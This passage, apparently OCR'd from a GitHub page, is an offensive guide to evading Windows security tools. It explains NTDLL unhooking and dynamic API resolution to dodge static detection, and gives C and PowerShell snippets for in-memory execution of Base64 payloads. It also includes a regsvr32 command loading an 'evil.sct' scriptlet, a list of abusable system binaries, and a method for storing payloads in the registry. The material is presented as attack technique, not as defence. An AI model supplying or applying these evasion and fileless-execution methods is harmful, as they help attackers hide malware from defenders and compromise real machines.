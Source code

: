 #### NTDLL Mapping Bypass

This technique loads a fresh copy of NTDLL.DLL from disk to bypass the hooked NTDLL.DLL.

1. Map a clean copy of NTDLL.DLL from disk
2. Extract necessary function addresses
3. Call functions directly from memory

#### Dynamic Function Resolution for Detection Evasion

Resolving function addresses dynamically instead of string references to evade static analysis detection.

```c
// Dynamic function resolution example
HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
FARPROC pCreateProcessA = GetProcAddress(hKernel32, "CreateProcessA");
((CREATE_PROCESS_A)pCreateProcessA)(NULL, commandLine, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
```

### 3. Fileless Malware Techniques

#### Using PowerShell and WMI

Using PowerShell and Windows Management Instrumentation (WMI) to perform attacks without writing files to disk.

```powershell
# Execute PowerShell payload directly in memory
$code = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('Base64 encoded payload'));
iex $code
```

#### Living-off-the-Land Techniques (LOLBins)

Exploiting legitimate binaries built into the system to conduct attacks.

```
# Example of code execution using regsvr32
regsvr32.exe /s /u /i:evil.sct scrobj.dll
```

Key LOLBins:
- regsvr32.exe
- mshta.exe
- certutil.exe
- bitsadmin.exe
- msiexec.exe

#### Registry-Based Payloads

Storing malicious code in the Windows registry and executing it from memory.

```powershell
# Example of storing payload in registry
$payload = "Base64 encoded payload"
Set-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{00000000-0000-0000-0000-000000000000}" -Name "Payload" -Value $payload
```
